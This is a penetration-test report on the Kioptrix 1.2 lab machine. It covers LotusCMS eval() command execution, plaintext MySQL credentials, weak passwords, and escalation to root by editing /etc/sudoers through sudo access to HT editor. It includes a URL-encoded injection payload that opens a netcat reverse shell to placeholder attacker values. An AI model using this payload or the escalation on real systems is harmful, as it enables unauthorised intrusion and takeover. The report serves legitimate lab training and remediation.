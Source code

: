 **Vulnerable System**: Kioptrix 1.2 (Level 3)
=============================================

**Operating System**: Ubuntu 8.04

**Kernel**: 2.6.24

**Vulnerability Exploited**: LotusCMS 3.0 - 'eval()' Remote Command Execution

*Python Script Exploit*

**Exploit Used**: LotusCMS 3.0 PHP Code Execution

**Proof of Concept Code**:
<https://packetstormsecurity.com/files/122161/LotusCMS-3.0-PHP-Code-Execution.html>

*Manual Exploit*

**Exploit Used**: Manual Exploit Based on: LotusCMS 3.0 - 'eval()' Remote
Command Execution (Metasploit)

**Proof of Concept Code**:
http://kioptrix3.com/index.php?page=index%27)%3B%24{system(%27nc+-e+%2Fbin%2Fsh+\<ip
address\>+\<port number\>%27)}%3B%23

**Vulnerability Explained**: An attacker can exploit this vulnerability to
execute local commands through the webserver’s URL. This allowed the attacker to
gain remote access to and compromise the system.

**Vulnerability fix**: Currently no fixes or patches are available.

**Severity**: **Medium**

**Vulnerability Exploited:** Plaintext MySQL credentials found in configuration
file.

**Vulnerability Explained**: Plaintext credentials were found in configuration
file on the webserver. These credentials further granted access to MySQL
databases where other user credentials were found.

V**ulnerability Fix**: The user’s credentials in configuration files should be
hashed and the plaintext password stored in a secure location.

**Severity**: Low

**Vulnerability Exploited**: Weak Passwords, Reused passwords.

**Vulnerability Explained**: User passwords found in MySQL databases were easily
crackable via a dictionary attack.

**Vulnerability Fix**: Enforce strong password policy, use different passwords
for different applications.

**Severity**: Medium

**Privilege Escalation Vulnerability**: sudo access via HT editor

**Exploit Used**: N/A

**Proof of Concept Code**: N/A

**Privilege Escalation Vulnerability Explained:** loneferret’s account had sudo
privileges for executing HT editor. HT Editor was used to edit /etc/sudoers file
to grant privileged shell for user loneferret. This allowed the attacker to gain
administrative privileges and completely compromised the system.
